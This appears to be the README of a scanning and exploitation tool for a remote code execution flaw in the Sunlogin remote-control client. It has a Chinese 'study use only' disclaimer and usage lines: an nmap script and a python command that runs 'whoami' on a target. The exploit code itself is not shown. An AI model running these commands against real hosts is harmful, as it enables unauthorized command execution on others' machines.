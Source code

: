 # Sunlogin_RCE
*日葵RCE简单探测和利用脚本

仅供学习使用，切勿用于非法测试

测试版本：SunloginClient_11.0.0.33162_X64

## Usage

```
nmap --script sunlogin_rce <target>
```

```
python3 sunlogin_rce.py -u 10.0.0.1 -p 49194 -c whoami
```
